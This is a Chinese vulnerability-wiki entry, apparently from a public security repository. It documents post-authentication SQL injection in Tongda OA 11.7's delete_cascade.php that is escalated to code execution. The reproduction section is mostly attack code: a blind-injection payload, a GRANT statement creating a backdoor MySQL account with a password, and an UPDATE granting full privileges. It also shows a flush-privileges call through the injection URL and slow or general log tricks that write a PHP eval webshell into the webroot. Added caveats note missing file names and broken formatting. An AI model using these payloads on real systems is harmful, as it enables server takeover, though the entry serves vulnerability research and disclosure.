










# 通达OA delete_cascade SQL 注入到日志写文件

## 条目说明

- 对象与具体问题：通达OA；delete_cascade SQLi到日志写文件
- 版本、配置及部署条件：11.7及旧mysql.user结构
- 认证与权限前提：登录及高权限应用DB
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 日志变量只设F:/OA/webroot/目录缺文件名，不足写所述文件
- password_expired=Y人为导致重授权；远程DB可达条件未明
- SQL URL/强调格式损坏，关键根因图未视检；无恢复

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

### 漏洞影响

```
通达OA v11.7
```

### 环境搭建

[环境地址](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

### 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中




首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php** 代码




使用盲注对SQL注入进行测试




触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:




其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```







添加SQL数据库用户

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

访问 **http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*

进入 **Myoa/mysql5/bin** 目录 执行 **mysql -upeiqi -p** 输入密码查询所有用户




发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```




然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限




登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell

```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```

上传大马




### 参考文章

[通达OA v11.7后台SQL注入到RCE[0day\]](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
